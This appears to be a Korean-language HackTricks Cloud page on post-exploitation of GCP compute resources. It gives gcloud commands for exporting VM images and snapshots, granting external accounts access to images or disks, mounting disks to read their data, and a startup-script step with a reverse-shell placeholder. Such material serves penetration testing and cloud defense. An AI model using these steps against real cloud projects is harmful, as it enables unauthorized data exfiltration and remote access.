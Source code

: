 # GCP - 컴퓨트 후 익스플로잇

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## 컴퓨트

컴퓨트 및 VPC (네트워킹)에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### 이미지 내보내기 및 로컬에서 검사하기

이를 통해 공격자는 이미 존재하는 이미지 내에 포함된 데이터에 **접근**하거나 **실행 중인 가상 머신의 새 이미지를 생성**하고 실행 중인 가상 머신에 대한 액세스 없이 데이터에 접근할 수 있습니다.

가상 머신 이미지를 버킷으로 내보내고, 해당 이미지를 다운로드하여 로컬에서 마운트할 수 있습니다. 명령어는 다음과 같습니다:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

이 작업을 수행하기 위해서는 공격자는 저장 버킷에 대한 권한과 확실히 **cloudbuild에 대한 권한**이 필요합니다. 왜냐하면 이 서비스가 내보내기 작업을 수행하기 위해 요청될 것이기 때문입니다. 
또한, 이 작업이 작동하려면 codebuild SA와 compute SA가 특권 권한을 갖고 있어야 합니다.
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com`은 다음과 같은 권한이 필요합니다:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

그리고 SA `<project-id>-compute@developer.gserviceaccount.com`은 다음과 같은 권한이 필요합니다:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### 스냅샷 및 디스크 내보내기 및 검사

스냅샷과 디스크를 직접 내보낼 수는 없지만, 스냅샷을 디스크로 변환하고, 디스크를 이미지로 변환한 다음, **이전 섹션**을 따라 해당 이미지를 로컬에서 검사할 수 있습니다.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### 이미지 검사를 통한 가상 머신 생성

공격자가 이미지를 생성한 위치에서 **이미지에 저장된 데이터** 또는 **실행 중인 가상 머신**에 저장된 데이터에 접근하는 것을 목표로 할 때, 외부 계정에 이미지에 대한 액세스 권한을 부여할 수 있습니다:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
그리고 그것으로부터 새로운 VM을 생성하세요:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
만약 이미지에 대한 외부 계정 액세스를 제공할 수 없다면, 피해자의 프로젝트에서 해당 이미지를 사용하여 가상 머신을 시작하고 메타데이터를 실행하여 역쉘에 액세스할 수 있습니다. 이를 위해 다음과 같은 매개변수를 추가하세요:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### 스냅샷/디스크 검사를 위해 VM에 연결하기

디스크나 스냅샷에 저장된 데이터에 접근하기 위해, 스냅샷을 디스크로 변환하거나 디스크를 이미지로 변환한 후 이전 단계를 따를 수 있습니다.

또는 외부 계정에 디스크에 대한 액세스 권한을 부여할 수 있습니다 (시작점이 스냅샷인 경우 스냅샷에 대한 액세스 권한을 부여하거나 스냅샷에서 디스크를 생성합니다):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**인스턴스에 디스크를 연결**합니다:

```bash
gcloud compute instances attach-disk INSTANCE_NAME --disk DISK_NAME --zone ZONE
```
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
VM 내에서 디스크를 마운트합니다:

1. **VM에 SSH로 접속**합니다:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **디스크 식별**: VM 내부에 들어가면 디스크 장치를 나열하여 새로운 디스크를 식별합니다. 일반적으로 `/dev/sdb`, `/dev/sdc` 등으로 찾을 수 있습니다.
3. **디스크 포맷 및 마운트** (새로운 또는 원시 디스크인 경우):
*   마운트 포인트를 생성합니다:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   디스크를 마운트합니다:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

스냅샷 또는 디스크에 외부 프로젝트에 액세스 권한을 부여할 수 없는 경우, 스냅샷/디스크와 동일한 프로젝트의 인스턴스 내에서 이 작업을 수행해야 할 수도 있습니다.

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 상품**](https://peass.creator-spring.com)을 구매하세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFT**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>

